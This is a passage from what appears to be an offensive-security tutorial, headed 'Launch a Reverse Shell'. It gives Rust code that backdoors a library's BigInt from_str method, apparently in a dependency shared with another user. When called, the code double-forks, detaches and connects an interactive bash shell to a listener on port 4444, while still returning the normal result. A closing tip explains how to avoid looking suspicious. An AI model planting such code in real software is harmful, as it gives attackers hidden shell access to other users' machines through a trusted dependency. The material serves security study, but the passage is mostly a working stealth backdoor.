 # Launch a Reverse Shell

Instead of writing a meaningless message from the source code, we'll write a payload that will spawn a reverse shell.

From a user other than the one targeting, enter the previously selected method's source code and place the following code:

```
use std::process::{Command, Stdio};

extern "C" {
    fn fork() -> i32;
    fn close(fd: i32) -> i32;
    fn setsid() -> i32;
}


...

#[inline]
fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
    static mut IN: bool = false;
    unsafe {
        // Check we are not spawning multiple reverse shells
        if !IN {
            IN = true;
            let pid = fork();
            // let the child spawn the reverse shell
            if pid == 0 {
                // perform fork-decouple-fork (a.k.a double fork)
                // this is important so that you avoid receiving a SIGTTIN that would send to the background the target user's program
                let pid_child = fork();
                if pid_child > 0 { std::process::exit(0) }
                setsid();
                let pid_gchild = fork();
                if pid_gchild > 0 {std::process::exit(0)}
                let sock = TcpStream::connect("localhost:4444").unwrap();
                let fd = sock.as_raw_fd();
                Command::new("/bin/bash")
                    .arg("-i")
                    .stdin(unsafe { Stdio::from_raw_fd(fd) })
                    .stdout(unsafe { Stdio::from_raw_fd(fd) })
                    .stderr(unsafe { Stdio::from_raw_fd(fd) })
                    .spawn()
                    .unwrap()
                    .wait()
                    .unwrap();
                std::process::exit(0);
            }
        }
    }
    BigInt::from_str_radix(s, 10)
}

```

It is important to note that we are not using any extern crate that might look suspicious from the outside, stick to the standard crate and external C functions.